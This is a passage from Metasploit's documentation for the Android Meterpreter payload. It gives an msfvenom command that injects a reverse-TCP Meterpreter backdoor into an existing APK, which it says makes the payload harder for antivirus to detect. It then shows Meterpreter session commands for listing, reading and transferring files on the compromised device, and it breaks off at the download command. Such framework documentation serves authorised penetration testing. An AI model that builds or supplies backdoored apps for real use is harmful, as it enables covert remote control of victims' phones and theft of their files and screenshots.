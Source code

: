 You can also add Android Meterpreter to any existing APK. This will make it harder for
Anti-virus software to detect the payload, and allow you read internal files and take
screenshots of the Android app that you are backdooring:

```
./msfvenom -p android/meterpreter/reverse_tcp -x <PATH TO EXISTING APK FILE> LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

[Please see here for more documentation on Android injection](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/android/meterpreter/injection.md).


Next, start an Android device. Upload the APK, and execute it. There are different ways to do this,
so please refer to the Scenarios section for more information.

## Important Basic Commands

**pwd**

The `pwd` command allows you to see the current directory you're in.

```
meterpreter > pwd
/data/data/com.metasploit.stage
```

**cd**

The `cd` command allows you to change directory. For example:

```
meterpreter > cd cache
meterpreter > ls
```

**cat**

The `cat` command allows you to see the contents of a file.

**ls**

The `ls` command displays items in a directory. For example:

```
meterpreter > ls
Listing: /data/data/com.metasploit.stage/files
==============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  0     fil   2016-03-08 14:56:08 -0600  rList-com.metasploit.stage.MainActivity
```

**upload**

The `upload` command allows you to upload a file to the remote target. The `-r` option
allows you to do so recursively.

**download**
